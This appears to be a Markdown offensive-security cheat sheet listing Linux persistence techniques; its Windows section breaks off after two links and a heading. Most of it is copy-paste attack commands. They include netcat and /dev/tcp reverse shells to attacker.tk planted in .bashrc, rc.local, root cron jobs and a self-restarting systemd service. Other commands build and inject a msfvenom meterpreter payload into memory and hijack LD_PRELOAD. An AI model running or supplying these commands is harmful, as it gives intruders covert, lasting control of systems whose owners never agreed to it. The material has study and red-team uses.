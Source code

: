 # PERSISTANCE

## LINUX
- [Linux Persistance MANUL](https://hadess.io/the-art-of-linux-persistence)
- [PANIX](https://github.com/Aegrah/PANIX)

- Autorun

    `bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc`

- Service

    `bash#> vim /etc/systemd/system/persistence.service`<br>
    `bash$> vim ~/.config/systemd/user/persistence.service`<br>
    `[Unit]`<br>
    `Description=persistence`<br>
    `[Service]`<br>
    `ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'`<br>
    `Restart=always`<br>
    `RestartSec=60`<br>
    `[Install]`<br>
    `WantedBy=default.target`<br>
    `bash#> systemctl enable persistence.service`<br>
    `bash#> systemctl start persistence.service`<br>
    `bash$> systemctl ‐‐user enable persistence.service`<br>
    `bash$> systemctl ‐‐user start persistence.service`<br>

- Tasks

    `bash#> echo "- - - - - bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root`<br>
    `bash#> echo $'SHELL=/bin/bash\n- - - - - root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn`<br>

- In MEMORY

    `msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999`<br>
    `bash$> inject_linux PID meter32.bin`

- LD_PRELOAD

    `bash#> echo /path/to/meter.so >> /etc/ld.so.preload`<br>
    `bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile`<br>
    `bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc`<br>

- rc.local

    `bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local`

## WINDOWS

- [Windows domain persistence](https://hadess.io/pwning-the-domain-persistence/)
- [Windows persistence mechanisms](https://persistence-info.github.io/)
- Autorun
